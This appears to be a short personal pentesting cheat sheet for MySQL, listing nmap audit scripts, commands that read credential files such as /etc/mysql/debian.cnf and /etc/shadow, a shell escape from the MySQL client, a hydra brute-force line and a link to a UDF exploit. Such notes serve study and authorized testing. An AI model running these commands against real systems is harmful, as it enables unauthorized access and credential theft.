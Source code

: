 ```yaml
---
layout: post
title: MySQL
description: MySQL
summary: MySQL
tags: [db,enum]
minute: 1
---
```

## Ports
* 3306/tcp

## Gathering Information from outside
```bash
# nmap
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.166.72
```

## Authentication
```bash
# extracting creds from files
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" | grep -v "mysql_native_password"
```

## Gathering infor inside SQL shell
```sql
; Checks version
select @@version;

; Checks user
select user();

; checks permissions and privileges
show grants for 'root'@'localhost';	
```

## Privesc
```sql
; Breaks out from shell
\! cat /etc/passwd
\! cat /etc/shadow
\! bash
```

## Files and directories
```bash
# settings
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```

## Brute Force
```bash
# mysql over ssh tunnel
hydra -V -L users.txt -P passwords.txt 127.0.0.1 -s 9000 mysql
```

## Exploits
* [UDF](https://www.exploit-db.com/exploits/1518) - used in vulnhub lord of the root

## Other resources
* [3306 - Pentesting Mysql - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mysql)
